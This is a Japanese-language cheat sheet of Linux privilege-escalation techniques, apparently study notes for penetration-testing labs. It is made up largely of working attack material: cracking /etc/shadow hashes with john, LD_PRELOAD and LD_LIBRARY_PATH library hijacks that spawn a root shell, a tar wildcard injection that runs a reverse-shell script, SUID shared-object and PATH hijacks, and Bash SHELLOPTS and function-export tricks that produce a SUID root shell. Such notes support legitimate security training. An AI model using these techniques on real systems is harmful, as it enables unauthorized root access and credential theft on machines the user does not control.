 # Linux Privilege Escalation2

## 機密ファイルのパーミッション確認
### /etc/shadow（read 権限あり）
```
echo '[HASH]' | tee hash.txt
hashid -m '[HASH]'
john --format=[FORMAT] --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

### /etc/shadow（write 権限あり）
新しいパスワードハッシュの生成
```
mkpasswd -m sha-512 [NEW PASSWORD]
```
### /etc/passwd（write 権限あり）
新しいパスワードの生成
```
openssl passwd [NEW PASSWORD]
```

## Sudo
### root 権限で実行できるコマンドを確認
```
sudo -l
```

### ユーザー環境から継承された環境変数を確認
```
sudo -l | grep -iF env_keep
```

#### LD_PRELOAD が存在する場合
1. C言語のプログラムを共有ライブラリ(soファイル)にコンパイル
```
gcc -fPIC -shared -nostartfiles -o /tmp/preload.so preload.c
```

preload.c
```
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
        unsetenv("LD_PRELOAD");
        setresuid(0,0,0);
        system("/bin/bash -p");
}
```

2. コマンドの実行(*1)
```
sudo LD_PRELOAD=/tmp/preload.so [COMMAND]
```

#### LD_LIBRARY_PATH が存在する場合
1. コマンド実行時に読み込むライブラリを確認(*2)
```
LD_LIBRARY_PATH=/tmp strace [COMMAND] 2>&1 | grep -iE "open|access|no such file"
```

2. C言語のプログラムを共有ライブラリ(soファイル)にコンパイル
```
gcc -o /tmp/[SHARED OBJECT] -shared -fPIC library_path.c
```

library_path.c
```
#include <stdio.h>
#include <stdlib.h>

static void hijack() __attribute__((constructor));

void hijack() {
        unsetenv("LD_LIBRARY_PATH");
        setresuid(0,0,0);
        system("/bin/bash -p");
}
```

3. コマンドの実行(*1)
```
sudo LD_LIBRARY_PATH=/tmp [COMMAND]
```

#### Memo
LD_PRELOAD : プログラム（コマンド）実行の際に最初にロードする共有オブジェクトを指定する環境変数。  
LD_LIBRARY_PATH : 最初に共有オブジェクトを検索しに行くディレクトリを指定する環境変数。  
setresuid() : Sets real and effective user IDs of the calling process

#### Annotation
*1 使用するコマンドは、root 権限で実行できるもの。  
*2 偽装するライブラリ名は、/tmp/[ファイル名]で読み込みされることを確認する。strace コマンドに LD_LIBRARY_PATH=/tmp を付与して実行することで、正規のディレクトリとは別に tmp ディレクトリにもライブラリを探しに行く。しかしライブラリによっては tmp ディレクトリに探しにいかないものもあるため注意。

## Cron Jobs
### ファイルのパーミッション

#### Crontabの確認
```
cat /etc/crontab
```

#### ディレクトリ / ファイルの書き込み権限の確認
```
ls -la [DIRECTORY / FILE]
```

#### ファイルのフルパスの確認
```
locate [FILE]
```

### 環境変数 PATH
ファイルが絶対パスで指定されていない（ファイル名のみ）ことが前提。

```

```

### ワイルドカード(*1)
Cronに限らず、スクリプト内で実行されるコマンド（tarなど）の引数として*が使われ、かつコマンド実行先のディレクトリに書き込み権限がある場合。[FILE] にはリバースシェルを実行するスクリプトを渡す。
```
touch /home/user/--checkpoint=1
touch /home/user/--checkpoint-action=exec=[FILE]
```

### Annotation
*1 touchコマンドの引数には絶対パスを渡さないと、--checkpoint=1, --checkpoint-action=exec=[FILE] がコマンドの引数と解釈されてエラーになる。

## SUID / SGID 実行ファイル
### 既存の脆弱性の利用
Exim <= 4.84-3（SUID / SGIDがセットされている必要あり。もし存在すれば [CVE-2016-1531](https://www.exploit-db.com/exploits/39535) を使う。）

```
find / -type f -name exim 2>/dev/null
```

### 共有オブジェクトの利用
SUID / SGIDがセットされており、スクリプトの置き換え、またはスクリプトの書き換えが可能な場合（ディレクトリの書き込み、またはファイルの書き込みが許可されている場合）
```
strace [FILE] 2>&1 | grep -iE "open|access|no such file"
gcc -shared -fPIC -o /tmp/[SHARED OBJECT] libcalc.c
./[FILE]
```

libcalc.c
```
#include <stdio.h>
#include <stdlib.h>

static void inject() __attribute__((constructor));

void inject() {
        setuid(0);
        system("/bin/bash -p");
}
```

### 環境変数
プログラム内部で実行されているコマンドが、コマンド名で指定されている（絶対パスでない）場合

```
strings [FILE]
gcc -o /tmp/[COMMAND] service.c
PATH=/tmp:$PATH [FILE]
```

service.c
```
int main() {
        setuid(0);
        system("/bin/bash -p");
}
```

### シェルの仕様 1
Bash が ver < 4.2-048 の場合に利用可能

Bash バージョン確認
```
/bin/bash --version
```

```
strings [FILE]
function [COMMAND ABSOLUTE PATH] { /bin/bash -p; }
export -f [COMMAND ABSOLUTE PATH]
./[FILE]
```

### シェルの仕様 2
Bash が ver < 4.4 の場合に利用可能

```
env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash)' [FILE]
/tmp/rootbash -p
```
